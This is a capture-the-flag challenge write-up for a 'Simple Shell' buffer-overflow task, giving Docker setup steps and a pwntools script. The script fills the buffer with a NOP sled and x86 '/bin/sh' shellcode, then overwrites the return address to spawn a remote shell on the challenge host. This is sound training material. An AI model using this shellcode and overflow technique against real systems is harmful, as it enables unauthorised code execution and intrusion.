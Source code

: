 # Simple Shell

## Challenge

`nc pwn.tamuctf.com 4323`

## Setup
Build the container with `docker build -t pwn3 .` and run it with `docker run -it --rm pwn3`

## Solution
Fill the buffer with shell code and overwrite the return address with the one given to you.  
Below is an example solution:  
```python
from pwn import *

p = remote('172.17.0.2', 4323)
#p = process('./pwn3')

msg = p.read().split(' ')

address = msg[-1][0:10]
ret = p32(int(address, 16))

shellcode = ("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" +
             "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" +
             "\x80\xe8\xdc\xff\xff\xff/bin/sh")
sled = '\x90'*(302 - len(shellcode))
payload =  sled + shellcode + ret

p.send(payload + '\n')
p.interactive()
```
